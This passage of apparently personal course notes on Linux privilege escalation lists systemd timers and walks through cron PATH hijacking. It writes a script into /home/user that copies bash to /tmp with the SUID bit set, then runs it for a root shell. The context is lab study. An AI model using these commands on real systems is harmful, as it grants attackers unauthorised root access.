 [![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/41.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/41.png)
Additionally, you can list systemd timers using:

```shell
systemctl list-timers --all
```

## Escalation via Cron Path Manipulation

In the output of `cat /etc/crontab`, you might notice a `PATH` variable where the first directory it searches is `/home/user`. If it doesn’t find the required script there, it moves on to the next directory:

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/42.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/42.png)
To exploit this, we can hijack a script, such as `overwrite.sh`, as follows:

```shell
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
chmod +x /home/user/overwrite.sh
```

Once that’s done, you can execute the newly created `bash` file in the `/tmp` directory with the following command:

```shell
/tmp/bash -p
```

[![Privilege Escalation](https://github.com/M1st3r3/CyberSec_Journey/raw/main/TCM-Academy/Lin_Priv_Esca/Image/43.png)](https://github.com/M1st3r3/CyberSec_Journey/blob/main/TCM-Academy/Lin_Priv_Esca/Image/43.png)
